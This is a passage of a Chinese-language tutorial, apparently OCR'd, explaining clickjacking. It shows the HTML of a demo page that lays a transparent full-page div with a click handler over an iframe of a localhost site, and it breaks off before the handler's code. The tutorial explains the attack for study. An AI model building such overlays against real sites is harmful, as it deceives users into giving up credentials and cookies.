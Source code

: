 ![show-iframe-test](../imgs/wm_229.png)

这就是点击挟持，通过一个相同界面的伪装，让你误以为是平时所使用的网站，但却是一个攻击者的网站，在攻击时，一旦点击就不会是一个弹窗了而是获取你的用户名、密码、cookie 等等的作用了。

我们可以查看该页面的源码，实现的原理非常的简单：

```html
<!DOCTYPE html>
<html>
<head>
```
<title>iframe</title>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
```
</head>
<body style="width: 100%">
<div onclick="ifsub()" style="position: absolute; width: 100%; height: 100%;">&nbsp;</div>
<iframe src="http://localhost/index.php"  id="iframepage"   name="iframepage" frameBorder=0  width="100%" onLoad="iFrameHeight()" ></iframe>
</body>
<script>
```
/*
- 下面iFrameHeight函数以及上面iframe标签里面的 frameBorder=0  width="100%" onLoad="iFrameHeight()"都是在修改标签样式
- /
function iFrameHeight() {
var ifm= document.getElementById("iframepage");
var subWeb = document.frames ? document.frames["iframepage"].document : ifm.contentDocument;
if(ifm != null && subWeb != null) {
ifm.height = subWeb.body.scrollHeight;
}
}
```


```
